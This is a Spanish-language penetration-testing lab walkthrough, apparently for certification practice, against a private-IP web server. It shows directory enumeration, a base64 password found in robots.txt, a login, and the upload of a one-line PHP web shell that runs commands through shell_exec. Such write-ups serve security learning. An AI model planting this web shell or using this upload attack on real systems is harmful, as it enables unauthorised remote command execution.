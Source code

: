 ```bash
[10:41:45] Starting:
[10:43:04] 200 -   21KB - /info.php
[10:43:12] 200 -  833B  - /login.php
[10:43:15] 301 -  313B  - /manual  ->  http://172.18.0.130/manual/
[10:43:15] 200 -  208B  - /manual/index.html
[10:43:40] 200 -  229B  - /robots.txt
[10:44:00] 200 -  954B  - /upload.php
[10:44:01] 200 -  404B  - /uploads/
[10:44:01] 301 -  314B  - /uploads  ->  http://172.18.0.130/uploads/

Task Completed
```

- En la ruta `/robots.txt`

  ![Untitled](/assets/img/labECCPT/Pasted image 20240402233319.png)

Se nos proporciona un mensaje que, por su estructura, parece estar en `base64`.

Decodificandolo:

![Untitled](/assets/img/labECCPT/Pasted image 20240402233414.png)

Tenemos una posible contraseña

- En la página principal existe un panel de inicio de sesión donde se probaran las credenciales encontradas:

  ![Untitled](/assets/img/labECCPT/Pasted image 20240402233518.png)

- Se tiene un inicio de sesión valido:

  ![Untitled](/assets/img/labECCPT/Pasted image 20240402232836.png)

Subiendo el archivo:

```bash
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

![Untitled](/assets/img/labECCPT/Pasted image 20240402232528.png)

Obteniendo:

![Untitled](/assets/img/labECCPT/Pasted image 20240402233633.png)

El archivo se está subiendo en la ruta `http://172.18.0.130/uploads/`

![Untitled](/assets/img/labECCPT/Pasted image 20240402233723.png)

Ejecutando el archivo, podemos ejecutar comandos:

![Untitled](/assets/img/labECCPT/Pasted image 20240402233811.png)
